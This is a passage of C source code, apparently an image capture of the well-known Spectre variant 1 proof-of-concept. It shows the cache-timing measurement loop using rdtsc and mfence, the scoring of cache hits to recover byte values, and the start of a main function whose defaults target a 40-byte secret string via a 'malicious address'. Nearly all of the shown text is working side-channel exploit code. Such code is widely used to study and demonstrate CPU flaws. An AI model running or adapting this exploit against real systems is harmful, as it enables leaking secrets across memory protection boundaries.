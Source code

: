 ```
      _mm_mfence();
      time2 = __rdtsc() - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
      _mm_mfence();
#else
      /*
      The mfence instruction was introduced with the SSE2 instruction set, so
      we have to ifdef it out on pre-SSE2 processors.
      Luckily, these older processors don't seem to reorder the rdtsc instruction,
      so not having mfence on older processors is less of an issue.
      */

      time1 = __rdtsc(); /* READ TIMER */
      junk = * addr; /* MEMORY ACCESS TO TIME */
      time2 = __rdtsc() - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
#endif
#endif
      if ((int)time2 <= cache_hit_threshold && mix_i != array1[tries % array1_size])
        results[mix_i]++; /* cache hit - add +1 to score for this value */
    }

    /* Locate highest & second-highest results results tallies in j/k */
    j = k = -1;
    for (i = 0; i < 256; i++) {
      if (j < 0 || results[i] >= results[j]) {
        k = j;
        j = i;
      } else if (k < 0 || results[i] >= results[k]) {
        k = i;
      }
    }
    if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
      break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
  }
  results[0] ^= junk; /* use junk so code above won’t get optimized out*/
  value[0] = (uint8_t) j;
  score[0] = results[j];
  value[1] = (uint8_t) k;
  score[1] = results[k];
}

/*
*  Command line arguments:
*  1: Cache hit threshold (int)
*  2: Malicious address start (size_t)
*  3: Malicious address count (int)
*/
int main(int argc,
  const char * * argv) {

  /* Default to a cache hit threshold of 80 */
  int cache_hit_threshold = 80;

  /* Default for malicious_x is the secret string address */
  size_t malicious_x = (size_t)(secret - (char * ) array1);

  /* Default addresses to read is 40 (which is the length of the secret string) */
  int len = 40;

  int score[2];
  uint8_t value[2];
  int i;

  #ifdef NOCLFLUSH
```